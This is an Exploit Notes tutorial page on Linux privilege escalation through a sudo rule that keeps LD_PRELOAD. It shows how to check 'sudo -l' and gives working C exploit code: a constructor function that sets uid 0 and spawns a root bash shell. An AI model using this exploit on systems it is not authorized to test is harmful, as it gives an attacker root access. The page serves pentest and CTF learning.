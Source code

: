 <div>
	<img src="./assets/logo_exploit-notes.png" alt="Exploit Notes Logo" width="16" height="auto">
	<span style="#963bc2: white; font-size: 110%;"><strong>Exploit Notes</strong></span>
</div>

[Sudo Privilege Escalation by Overriding Shared Library](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-privilege-escalation-by-overriding-shared-library/)

[**#Investigation**]

Check sudo commands.
```sh
sudo -l
```

The below is the output example.
```bash
env_keep+=LD_PRELOAD

(ALL : ALL) NOPASSWD: somecmd
```

If we find the `sudo` command keeps **LD_PRELOAD** environment, we can overwrite this variable to load our custom shared object and escalate the privileges.

Also, we can replace the **LD_PRELOAD** with **LD_LIBRARY_PATH**.

By the way, to list shared libraries required by the executable, use `ldd` command.
```sh
ldd somecmd
```

[**#Exploitation**]

First off, create **exploit.c** under **/tmp** .
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void inject()__attribute__((constructor));

void inject() {
	unsetenv("LD_PRELOAD");
	setuid(0);
	setgid(0);
	system("/bin/bash");
}
```
The **"constructor"** attribute is a special type of function attribute in GCC. It tells the compiler to automatically call the function before the main function.
